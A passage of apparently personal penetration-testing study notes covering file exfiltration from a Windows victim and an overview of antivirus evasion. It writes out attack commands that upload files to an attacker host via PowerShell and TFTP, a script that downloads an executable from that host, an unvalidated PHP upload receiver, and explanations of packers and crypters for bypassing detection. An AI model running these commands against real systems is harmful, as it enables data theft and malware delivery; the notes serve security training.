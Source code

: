 	and finally we exfiltrate the evil.exe from the victim to the attacke: powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'evil.exe')
Uploading files with TFTP client:
	This can be used on older Windows systems, up to Windows XP and Windows 2003 (the TFTP client is not installed on Windows 7, Windows 2008 and newer)
	We need to install TFTP on our attacker machine: sudo apt-get install atftp
	Then, to create the transfer folder, configure it and launch it with the following commands: sudo mkdir /tftp && sudo chown nobody: /tftp && sudo atftpd --daemon --port 69 /tftp
	Finally, on our Windows victim machine, we cna exfiltrate the evil2.exe file with the command: tftp -i 10.11.0.4 put evil2.exe

###### setup-ftp.sh
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd raste -u ftpuser -d /etc ftpuser
pure-pw mkdb
cd /etc/pure-ftpd/auth
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd

###### wget.ps1
echo $webclient = new-Object System.Net.WebClient >> wget.ps1
echo $url = "http://10.11.0.4/wget.exe" >> wget.ps1
echo $file = "evil2..exe" >> wget.ps1
echo $webclient.DownloadFile($url, $file) >> wget.ps1

###### upload.php
<?php $uploaddir = '/var/www/uploads';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

##### Antivirus Evasion
virustotal.com allows us to run a virus scan on any executable and shows the detection rate of various anti virus products
Anti virus detection methods:
	Signature-based detection: this is a black list technology. We can bypass signature-based detection by obfuscating the content of a file 
	Huristic-based detection: it relies on rules and algorithms based on the analisys of the instruction set of a binary file or its decompilation and analisys of derived source code
	Behavioural-based detection: based on the dynamic analisys of the binary file behaviour, often executed on a sandbox environment
Most antivirus products offer a combination of these three capabilities to achieve beffere detection rate
Antivirus evasion:
	On disk evasion: it focuses on modifying malicious files physically stored on disk in order to avoid detection. There are 4  main techniques to obfuscate files stored on a physical disk: 
		Packers: it generates a functionally equivalent binary with a completely new binary structure, thus with a new signature to bypass AV scanners
		Ofuscators: they reorganize and mutate code in a way that it makes more difficult to reverse engineer it. This includes replacing instructions with semantically equivalent ones, inserting irrelevant instructions (dead code), re-order functions and so on
		Crypters (crypter software): they crytographycally alter eecutable code, adding a decrypting stub that restores the original code upon execution. This decryption happens in memory, leaving on disk only encrypted code and thus evading AV detection
		Software protectors: originally used for legitimate purposes, can also be used to bypass AV detection
	In memory evasion: modern malware often attempts in memory operations, to avoid touching the disk entirely. This technique (in memory injection or PE injection) focuses on the manipulation of volatile memory and does not write any file to disk, which is one of the area of most focus for many antivirus products